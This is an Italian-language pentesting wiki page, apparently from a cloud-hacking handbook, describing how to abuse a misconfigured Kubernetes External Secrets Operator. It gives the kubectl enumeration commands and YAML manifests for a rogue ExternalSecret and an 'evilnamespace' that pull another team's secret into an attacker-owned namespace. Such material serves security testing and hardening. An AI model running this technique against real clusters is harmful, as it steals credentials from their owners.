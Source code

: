# External Secret Operator

**L'autore originale di questa pagina è** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Questa pagina fornisce alcuni suggerimenti su come puoi rubare segreti da un ESO mal configurato o da un'applicazione che utilizza ESO per sincronizzare i suoi segreti.

## Disclaimer

La tecnica mostrata di seguito può funzionare solo quando sono soddisfatte determinate circostanze. Ad esempio, dipende dai requisiti necessari per consentire a un segreto di essere sincronizzato in uno spazio dei nomi che possiedi / hai compromesso. Devi scoprirlo da solo.

## Prerequisites

1. Un accesso a un cluster kubernetes / openshift con privilegi di amministratore su uno spazio dei nomi
2. Accesso in lettura su almeno ExternalSecret a livello di cluster
3. Scoprire se ci sono etichette / annotazioni o appartenenza a gruppi richieste che consentono a ESO di sincronizzare il tuo segreto. Se sei fortunato, puoi rubare liberamente qualsiasi segreto definito.

### Gathering information about existing ClusterSecretStore

Assumendo che tu abbia un utente con diritti sufficienti per leggere questa risorsa; inizia elencando prima i _**ClusterSecretStores**_ esistenti.
```sh
kubectl get ClusterSecretStore
```
### Enumerazione di ExternalSecret

Supponiamo di aver trovato un ClusterSecretStore chiamato _**mystore**_. Continua enumerando il suo externalsecret associato.
```sh
kubectl get externalsecret -A | grep mystore
```
_Questa risorsa è limitata a uno spazio dei nomi, quindi a meno che tu non sappia già quale spazio dei nomi cercare, aggiungi l'opzione -A per cercare in tutti gli spazi dei nomi._

Dovresti ottenere un elenco di externalsecret definiti. Supponiamo che tu abbia trovato un oggetto externalsecret chiamato _**mysecret**_ definito e utilizzato dallo spazio dei nomi _**mynamespace**_. Raccogli un po' più di informazioni su che tipo di segreto contiene.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Assemblare i pezzi

Da qui puoi ottenere il nome di uno o più nomi segreti (come definito nella risorsa Secret). Otterrai un output simile a:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Finora abbiamo:

- Nome di un ClusterSecretStore
- Nome di un ExternalSecret
- Nome del segreto

Ora che abbiamo tutto ciò di cui abbiamo bisogno, puoi creare un ExternalSecret (e eventualmente patchare/creare un nuovo Namespace per soddisfare i requisiti necessari per sincronizzare il tuo nuovo segreto):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Dopo alcuni minuti, se le condizioni di sincronizzazione sono state soddisfatte, dovresti essere in grado di visualizzare il segreto leakato all'interno del tuo namespace.
```sh
kubectl get secret leaked_secret -o yaml
```
## Riferimenti

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
